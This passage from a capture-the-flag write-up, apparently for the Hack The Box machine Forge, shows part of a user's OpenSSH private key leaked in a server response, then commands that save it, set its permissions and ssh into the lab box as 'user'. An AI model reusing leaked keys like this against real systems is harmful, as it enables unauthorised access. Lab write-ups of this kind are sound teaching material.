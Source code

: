 ```{.bash caption="private key of user in server response" style=mystyle}
xW9bMPOLe7Mm66DjtmOrNrosF9vUgc92Vv0GBjCXjzqPL/p0HwdmD/hkAYK6YGfb3Ftkh0
2AV6zzQaZ8p0WQEIQN0NZgPPAnshEfYcwjakm3rPkrRAhp3RBY5m6vD9obMB/DJelObF98
yv9Kzlb5bDcEgcWKNhL1ZdHWJjJPApluz6oIn+uIEcLvv18hI3dhIkPeHpjTXMVl9878F+
kHdcjpjKSnsSjhlAIVxFu3N67N8S3BFnioaWpIIbZxwhYv9OV7uARa3eU6miKmSmdUm1z/
wDaQv1swk9HwZlXGvDRWcMTFGTGRnyetZbgA9vVKhnUtGqq0skZxoP1ju1ANVaaVzirMeu
DXfkpfN2GkoA/ulod3LyPZx3QcT8QafdbwAJ0MHNFfKVbqDvtn8Ug4/yfLCueQdlCBAAAA
wFoM1lMgd3jFFi0qgCRI14rDTpa7wzn5QG0HlWeZuqjFMqtLQcDlhmE1vDA7aQE6fyLYbM
0sSeyvkPIKbckcL5YQav63Y0BwRv9npaTs9ISxvrII5n26hPF8DPamPbnAENuBmWd5iqUf
FDb5B7L+sJai/JzYg0KbggvUd45JsVeaQrBx32Vkw8wKDD663agTMxSqRM/wT3qLk1zmvg
NqD51AfvS/NomELAzbbrVTowVBzIAX2ZvkdhaNwHlCbsqerAAAAMEAzRnXpuHQBQI3vFkC
9vCV+ZfL9yfI2gz9oWrk9NWOP46zuzRCmce4Lb8ia2tLQNbnG9cBTE7TARGBY0QOgIWy0P
fikLIICAMoQseNHAhCPWXVsLL5yUydSSVZTrUnM7Uc9rLh7XDomdU7j/2lNEcCVSI/q1vZ
dEg5oFrreGIZysTBykyizOmFGElJv5wBEV5JDYI0nfO+8xoHbwaQ2if9GLXLBFe2f0BmXr
W/y1sxXy8nrltMVzVfCP02sbkBV9JZAAAAwQDErJZn6A+nTI+5g2LkofWK1BA0X79ccXeL
wS5q+66leUP0KZrDdow0s77QD+86dDjoq4fMRLl4yPfWOsxEkg90rvOr3Z9ga1jPCSFNAb
RVFD+gXCAOBF+afizL3fm40cHECsUifh24QqUSJ5f/xZBKu04Ypad8nH9nlkRdfOuh2jQb
nR7k4+Pryk8HqgNS3/g1/Fpd52DDziDOAIfORntwkuiQSlg63hF3vadCAV3KIVLtBONXH2
shlLupso7WoS0AAAAKdXNlckBmb3JnZQE=
-----END OPENSSH PRIVATE KEY-----
```

Now we can use the key to ssh in as _user_.

```{.bash caption="ssh session on box" style=mystyle}
> vim id_rsa
> chmod 600 id_rsa
> ssh -i id_rsa user@forge.htb
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 22 Sep 2021 10:31:05 AM UTC

  System load:           0.0
  Usage of /:            43.9% of 6.82GB
  Memory usage:          22%
  Swap usage:            0%
  Processes:             222
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.111
  IPv6 address for eth0: dead:beef::250:56ff:feb9:1d00


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Aug 20 01:32:18 2021 from 10.10.14.6
user@forge:~$
```
